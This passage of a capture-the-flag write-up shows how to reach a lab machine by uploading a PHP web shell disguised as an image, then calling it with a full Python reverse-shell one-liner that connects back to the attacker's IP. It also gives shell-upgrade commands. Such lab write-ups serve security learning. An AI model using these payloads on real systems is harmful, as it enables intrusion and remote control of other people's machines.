 Then, upload this file. You should get something like this:

![uploaded.png](images/uploaded.png)

We just have to use the url where the file is located in our web brower and add the command we want like this:
~~~
http://10.10.10.185/images/uploads/myimage.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~
Of course, the command we want is a reverse shell. Here, we use a simple python reverse shell. A bash reverse shell doesn't work due to characters such as "&" I guess.   
In the meanwhile, we set up a **`netcat`** listener on our attacking machine, and we have a shell.

At this point, the shell is not good. We can use the following commands to improve our shell:
1. `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `Ctrl+Z`
3. `$ stty raw -echo`
4. `$ fg`

_Side note: python is not installed, that's why we use **python3** here._


We should now have a real shell (interactive, auto-completion, no exit from the shell when killing a process with Ctrl+C...). The screen should look like this:

![shell.png](images/shell.png)


For more information about hiding code in an image file with **`exiftool`**, another good resource is [here](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/).

* * *
## 3- Privilege escalation
### 3.1- Getting user.txt

